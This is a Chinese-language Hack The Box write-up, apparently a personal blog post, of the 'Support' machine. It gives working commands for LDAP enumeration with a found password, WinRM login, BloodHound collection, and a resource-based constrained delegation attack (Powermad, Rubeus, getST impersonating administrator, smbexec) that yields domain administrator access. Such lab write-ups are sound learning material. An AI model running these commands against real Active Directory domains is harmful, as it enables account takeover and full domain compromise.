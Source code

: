 +++
ShowToc = true
TocOpen = true
title = '0X016 Support'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE5210351ecaab4ed72e1b4bf8ee75765d截图.png)

![](/htb_img/WEBRESOURCEed69e887f32981ad919d9524cb6f0090截图.png)

# 渗透测试

没有开放HTTP协议，主要是通过域内渗透方式进行

SMB匿名登录：

![](/htb_img/WEBRESOURCEbff327d0f4c284b632ee844164d0370b截图.png)

![](/htb_img/WEBRESOURCE88308eb72b82e88e52dc73b8cbf33134截图.png)

这出现一个问题，不知到为啥，抓包看不到程序的发包

![](/htb_img/WEBRESOURCEb07edaf8d168cda964765ef93f596c6e截图.png)

主要考点：LDAP 轻量目录访问协议，理解上更像是一个树状图

ldapsearch似乎-h与-p结合的使用方式被停用了？，帮助里面没看到这个用法，只能用-H了，

-x使用简单认证

-D用户名

-w密码

-W交互式输入密码

-b指定basedn查询，分辨名，唯一标识，根

```
ldapsearch -H ldap://10.10.11.174 -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "*"
```

![](/htb_img/WEBRESOURCE8fea50f5a65115346894cbd65d4dd4df截图.png)

发现密码，这里可以使用crackmapexec进行探测，这是一个用户内网渗透的探测工具：

![](/htb_img/WEBRESOURCE7907cef0313332cde4376717d6f59cec截图.png)

evil-winrm工具是 Winrm 服务利用工具，需要合法用户身份信息，使用5985端口连接：

```
evil-winrm -u support -p Ironside47pleasure40Watchful -i 10.10.11.174
```

![](/htb_img/WEBRESOURCE58222552f72ea8805bbf63f007591aec截图.png)

查看flag

![](/htb_img/WEBRESOURCEa8e93bca57d16f39f255af6e70fb5c09截图.png)

# 提权

BloodHound是一款用于域分析的强大工具，它可以帮助安全专业人员识别和分析Active Directory（AD）环境中的攻击路径和权限问题。本文将介绍BloodHound的基本概念，并提供一些使用BloodHound进行域分析的编程实例。

BloodHound的使用：

启动：

```
1、开启neo4j数据库：
neo4j start
访问本地的7474端口即可看到web页面，默认账密：neo4j，第一次使用需要修改密码
2、kali启动BloodHound：
./BloodHound --no-sandbox
```

离线脚本使用：

```
1、上传windows版本的脚本，存放在以下路径：
BloodHound-linux-x64/resources/app/Collectors
2、运行即可
SharpHound.exe -c all
```

玩了半天终于玩儿明白了，原来人家回自动分析路径：

![](/htb_img/WEBRESOURCE5b4f95d646769f2b0e55d384e6720c30截图.png)

这里建议使基于资源的约束型委派进行攻击，下面为必要工具的介绍：

Powermad.ps1是一个专门拿来利用机器账户和DNS的漏洞利用工具，在基于资源的约束型委派中用来创建机器账户：

[https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)

PowerView.ps1是一个

[https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

Rubeus.exe是一个用于kerberos交互的工具：

这个工具版本比较多，这里用的是[https://github.com/r3motecontrol/Ghostpack-CompiledBinaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

# 基于资源的约束型委派流程如下：


```
一、导入模块：
Import-Module ./Powermad.ps1
或者
. ./Powermad.ps1
二、添加机器账户，基于资源的约束型委派需要：
Set-Variable -Name "FakePC" -Value "FAKE01"  # FAKE01这个名字可以自己改
Set-Variable -Name "targetComputer" -Value "DC"
New-MachineAccount -MachineAccount (Get-Variable -Name "FakePC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
三、设置权限
Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakePC").Value + '$')
四、生成hash
./Rubeus.exe hash /password:123456 /user:FAKE01$ /domain:support.htb
五、利用hash申请票据
添加hosts文件
echo "10.10.11.174 support.htb" >> /etc/hosts
echo "10.10.11.174 dc.support.htb" >> /etc/hosts
生成TGT票据，以administrator的身份申请一张访问http/dc.support.htb服务的票据
python3 getST.py support.htb/FAKE01 -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B
六、连接
添加票据
export KRB5CCNAME=administrator.ccache
smbexec.py support.htb/administrator@dc.support.htb -no-pass -k
```

![](/htb_img/WEBRESOURCE0174ceeddf8e6fced5547680212b3a9a截图.png)

![](/htb_img/WEBRESOURCE1d0b1b97bb10fab3f753ee041f05d5f6截图.png)

记得给sudo权限：

![](/htb_img/WEBRESOURCE38c9c9cd98e6cb74f3c27b8f28ab0b74截图.png)

![](/htb_img/WEBRESOURCE8c4f89dd6bf3858148010d2d279bf70b截图.png)